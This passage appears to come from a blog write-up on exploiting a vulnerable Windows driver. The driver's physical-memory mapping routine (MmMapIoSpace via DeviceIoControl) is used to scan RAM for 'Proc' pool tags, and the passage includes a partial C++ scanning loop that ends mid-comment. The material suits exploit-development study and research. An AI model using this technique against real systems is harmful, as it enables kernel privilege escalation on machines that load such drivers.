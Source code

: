 So this looks promising.

## Implementing Strategy in Code

One difficulty I faced on my Windows 10 build was that mapping large chunks at a time with `DeviceIoControl` calling our driver routine would often result in crashes. I didn't have this problem at all on Windows 7. In my Windows 7 exploit I was able to map a `0x4CCCCCCC` byte chunk and parse through the entire thing looking for the values I was after. 

On Windows 10, I found the most stable approach to be to map `0x1000` (small page-sized) chunks at a time and then parse through these mapped chunks for my values. If I didn't find my values, I would map another `0x1000`. This too wasn't crash free. I found that if I made too many mappings I would also crash so I had to find a sweet spot.

I also found that some calls to the driver routine with `DeviceIoControl` would return a failure. I wasn't able to completely figure this out but my suspicion is that since our `CacheType` is hardcoded for us with `MmMapIoSpace`, if we tried to map pages that had been given a different `CacheType` in a previous mapping to a virtual address, it would fail. (Does this make sense?)

Picking a physical address to start mapping from is kind of arbitrary but I found the sweet spot on my Windows 10 VM to be around `0x200000000`. This VM has about 8 GB of RAM. To limit the amount of mappings, I set a hard cap at `0x240000000` so that my exploit would stop mapping once it hit this address. I also toyed around with adding a limit to the amount of times `DeviceIoControl` is called but the exploit seems stable enough in testing that this wasn't necessary in the end. 

I used two main functions, the first function maps memory iteratively looking to identify the **physical** addresses of of "Proc" tags that have our "header marker" value soon after. This function stores the address of each physical location, the size of the header offset, and the size of the offset from the beginning of the memory page to the "Proc" location. It stores all of these values in vectors which are the sole members of a struct which the function returns. The offset to the beginning of the page is simply calculated with a modulus operation and then the remainder is subtracted from the "Proc" location. I wanted to make sure I was always mapping from a nice `0x1000` aligned address. Here is some of that snipped code:

```cpp
cout << "[>] Going fishing for 100 \"Proc\" chunks in RAM...\n\n";
    while (proc_count < 100)
    {
        DWORDLONG num_of_bytes = 0x1000;
        DWORDLONG padding = 0x4141414141414141;
        INT64 start_address = START_ADDRESS + (0x1000 * iteration);

        INPUT_BUFFER input_buff = { start_address, num_of_bytes, padding };

        if (input_buff.start_address > MAX_ADDRESS)
        {
            cout << "[!] Max address reached!\n";
            cout << "[!] Iterations: " << dec << iteration << "\n";
            exit(1);
        }
        if (DeviceIoControl(
            device_handle,
            IOCTL,
            &input_buff,
            sizeof(input_buff),
            output_buff,
            sizeof(output_buff),
            &bytes_returned,
            NULL))
        {
            // The virtual address in our process space where RAM was mapped
            // is located in the first 8 bytes of our output_buff.
            INT64 mapped_address = *(PINT64)output_buff;

            // We will read a 32 bit value at offset i + 0x100 at some point
            // when looking for 0x00B80003, so we can't iterate any further
```